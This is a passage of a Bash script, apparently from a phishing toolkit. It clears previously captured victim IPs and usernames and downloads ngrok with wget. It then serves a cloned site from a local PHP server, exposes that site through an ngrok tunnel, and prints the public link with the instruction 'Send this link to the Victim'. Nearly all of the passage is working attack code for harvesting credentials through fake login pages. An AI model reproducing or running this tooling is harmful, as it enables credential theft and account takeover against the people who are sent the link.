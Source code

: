getcredentials
}

start() {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi


if [[ -e ngrok ]]; then
echo ""
else

printf "\e[1;92m[\e[0m*\e[1;92m] Downloading Ngrok...\n"
arch=$(uname -a | grep -o 'arm' | head -n1)
arch2=$(uname -a | grep -o 'Android' | head -n1)
if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1

if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
exit 1
fi



else
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $link
checkfound
}
checkfound() {
